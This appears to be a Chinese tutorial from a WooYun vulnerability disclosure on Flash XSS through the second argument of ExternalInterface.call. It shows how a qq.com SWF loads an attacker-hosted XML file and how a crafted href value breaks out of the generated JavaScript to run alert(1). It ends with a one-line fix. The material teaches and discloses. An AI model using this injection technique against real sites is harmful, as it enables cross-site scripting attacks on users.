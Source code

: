 # 16\. Flash Xss 进阶 [ExternalInterface.call 第二个参数]

> 来源：[16\. Flash Xss 进阶 [ExternalInterface.call 第二个参数]](http://www.wooyun.org/bugs/wooyun-2010-016598)

## 简要描述

讲完 ExternalInterface.call 的第一个参数，我们接着来讲第“2”个参数，之所以 2 打上引号，因为 call 函数的原型是：

`call(functionName:String, ... arguments):*`， 即后面可以有很多很多个参数，我们统称为第 2 个参数。有时候我们会遇到 `ExternalInterface.call("xxxxx","可控内容");`的情况，那么这种情况下，如何构造 XSS 呢？

1\. 有了上一节教程的基础，这次我们直接见实例。

通过 GOOGLE 搜索，site:qq.com filetype:swf inurl:xml 我们可以找到以下 FLASH。

```
http://imgcache.qq.com/qzone_v4/2/default_menu_horizontal.swf?xml_path=http://imgcache.qq.com/qzone/client/custom_men u/custom_menu.xml 
```

2\. 借鉴上上节教程的思路，我们可以看看 [`imgcache.qq.com/qzone/client/custom_menu/custom_menu.xml`](http://imgcache.qq.com/qzone/client/custom_menu/custom_menu.xml) 里是个什么内容。

![image](img/Image_084.jpg)

3\. 好像看不出来是个啥用途，我们反编译 FLASH 文件。

![image](img/Image_085.jpg)

4\. 接着我们先看看是否有 getURL, `ExternalInterface.call` 之类的。

![image](img/Image_086.jpg)

可以看到，我们搜索到的是下面这句：

```
flash.external.ExternalInterface.call("custom_menu_swf", menu_array[_local2].href); 
```

那么 call 的第一个参数是被限定死了～，第 2 个参数为 `menu_array[_local2].href`，如果你对 AS 有一点了解，不难看出 `menu_array` 是一个数组，那么`_local2` 应该就是数组的下标， 而从单词含义“菜单数组”我们不难联想到上面 xml 文件里的数据。

![image](img/Image_087.jpg)

5\. 换句话说，这里我们的可以控制 call 的第 2 个参数。同教程 14 中的方法，我们下来

```
http://imgcache.qq.com/qzone/client/custom_menu/custom_menu.xml 。 
```

先做点修改，然后上传到自己网站上。 我们将代码里日志那一行的 href 改掉。

```
<menu name="日 志" href="\&quot;,alert(1)" /> 
```

上传修改后的文件，同时记得将 crossdomain.xml 上传至自己的网站根目录下哦～～（见教程 14）

6\. 接着我们载入我们自己指定的 XML 文件。

```
http://imgcache.qq.com/qzone_v4/2/default_menu_horizontal.swf?xml_path=http://itsokla.duapp.com/custom_menu.xml 
```

7\. 接着我们打开 Firefox 浏览器。 有人会问，你怎么突然要用 Firefox 啊！疯了么！！ 同志们，我没疯，只是因为 FF 可以捕获到这 里的错误，而 chrome 捕获不到！

我们打开 Firefox 后， 访问上面的地址，点击【日志】按钮！！ Ctrl+shift+J 打开错误控制台！可以看到以下报错！

![image](img/Image_088.jpg)

8\. 记性好的朋友，会马上想起上一节里我们说到的。

```
ExternalInterface.call("函数名","参数 1"); 
```

实际上执行的是以下内容，

```
try { flash toXML(函数名("参数 1")) ; } catch (e) { "<undefined/>"; } 
```

我们就是从 FF 这里捕获错误到这点的！（:) 当然也还会有其他方法）。 为什么会出错呢? 我们一起来看看。

9\. 当我们点击 【日志】按钮时，会调用。

```
flash.external.ExternalInterface.call("custom_menu_swf", menu_array[_local2].href); 
```

而 `menu_array[_local2].href` 等于 `\",alert(1)`, 进而，我们代入完整的代码，即如下：

```
try { flash toXML(custom_menu_swf("\\",alert(1)")) ; } catch (e) { "<undefined/>"; } 
```

转换过程如下图：

![image](img/Image_089.jpg)

可以看到转换之后，JS 代码有点乱，引号到处飞，括号无处寻，因而报错了！

10\. 那么我们怎么构造正确的利用代码呢？其实有上一节的知识并不难！

```
try { flash toXML(custom_menu_swf("构造点构造点")) ; } catch (e) { "<undefined/>"; } 
```

首先第一步，要注入自己代码，首先要闭合掉双引号！

```
try { flash toXML(custom_menu_swf("构造点"),alert("构造点")) ; } catch (e) { "<undefined/>"; } 
```

但是从上面转换流程，我们可以看到， `"` 会变成 `\"`, 即变成了下面的样子，还是突破不出去。

```
try { flash toXML(custom_menu_swf("构造点\"),alert(\"构造点")) ; } catch (e) { "<undefined/>"; } 
```

![image](img/Image_090.jpg)

不过非常庆幸的事情是，这里没有对 `\` 进行转义。 我们可以通过输入 `\"` 来构造。JS 的字符串里，`\` 用 `\\` 表示。如下：

```
try { flash toXML(custom_menu_swf("构造点\\"))}catch(e){alert(1)}//构造点")) ; } catch (e) { "<undefined/>"; } 
```

图片分析如下：

![image](img/Image_091.jpg)

11\. 罗嗦了这么多，我们把构造点代码，拿出来，插入到 XML 文件里。注意以下几点：

11.1 最后构造的代码是`\\"`, 实际我们的输入是`\"`，然后由 FLASH 自己转变为`\\"`的，因而利用代码里只需要输入`\"`即可。

11.2 由于在 XML 的节点属性里，双引号写为 `&quot;`

```
<menu name="日 志" href="构造点\&quot;))}catch(e){alert(1)}//构造点" /> 
```

12\. 再次上传文件。打开

```
http://imgcache.qq.com/qzone_v4/2/default_menu_horizontal.swf?xml_path=http://itsokla.duapp.com/custom_menu.xml 
```

点击日志，看看效果。

![image](img/Image_092.jpg)

## 修复方案

1\. 禁止调用第三方的外部 XML 文件。
